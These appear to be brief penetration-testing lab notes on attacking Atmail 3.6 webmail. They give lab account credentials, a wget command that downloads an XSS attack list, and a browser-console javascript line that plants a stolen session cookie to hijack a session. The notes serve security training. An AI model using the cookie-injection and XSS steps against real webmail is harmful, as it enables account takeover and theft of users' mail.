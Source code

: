 ### Atmail 3.6
```
admin@offsec.local    : 123456
attacker@offsec.local : 123456
wget http://htmlpurifier.org/live/smoketests/xssAttacks.xml

```



### Session hijacking
```
Inspeccionador -> Console
javascript:void(document.cookie="atmail6=1fp0fjq4aa8sm5if934b62ptv6"); 
```
